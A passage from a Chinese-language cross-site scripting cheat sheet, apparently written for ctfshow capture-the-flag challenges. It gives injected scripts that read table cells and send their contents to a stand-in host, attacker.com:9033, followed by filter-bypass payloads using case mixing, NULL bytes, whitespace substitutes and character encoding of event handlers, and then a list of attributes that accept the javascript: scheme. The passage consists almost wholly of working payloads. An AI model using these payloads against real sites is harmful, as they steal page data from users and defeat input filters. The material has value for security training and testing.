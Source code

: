 #### 2.5 监控脚本
```javascript
// 使用 nc 监控
<script>window.open('http://attacker.com:9033/'+document.getElementsByClassName('layui-table-cell laytable-cell-1-0-1')[1].innerHTML)</script>

// 使用 jQuery 监控
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function(index,value){
    if(value.innerHTML.indexOf('ctfshow{')>-1){
        window.location.href='http://attacker.com:9033/'+value.innerHTML;
    }
});</script>

// 使用 jQuery 监控（带过滤）
<script>$('div.layui-table-cell.laytable-cell-1-0-1').each(function (index, value) {
    if ((value.innerHTML.indexOf('ctfshow{') > -1)&&(value.innerHTML.indexOf('script') === -1)) {
        window.location.href = 'http://attacker.com:9033/' +value.innerHTML;
    }
});</script>
```

### 3. 绕过技巧

#### 3.1 标签名绕过
```html
<!-> 大小写混淆 -->
<iMg onerror=alert(1) src=a>

<!-> 插入 NULL 字节 -->
<%00img onerror=alert(1) src=a>

<!-> 空格替代字符 -->
<img%09onerror=alert(1) src=a>  <!-> Tab -->
<img%0aonerror=alert(1) src=a>  <!-> 换行 -->
<img/"onerror=alert(1) src=a>   <!-> 异常语法 -->
```

#### 3.2 属性名绕过
```html
<img o%00nerror=alert(1) src=a>
<imgonerror='alert(1)'src=a>
```

#### 3.3 属性值编码绕过
```html
<imgonerror=a%00lert(1) src=a>
<imgonerror=a&#x006c;ert(1) src=a>
```

#### 3.4 可编码属性
##### URL 类型属性（支持 `javascript:` 协议）
> `href=`<br>
> `action=`<br>
> `formaction=`<br>
> `location=`<br>
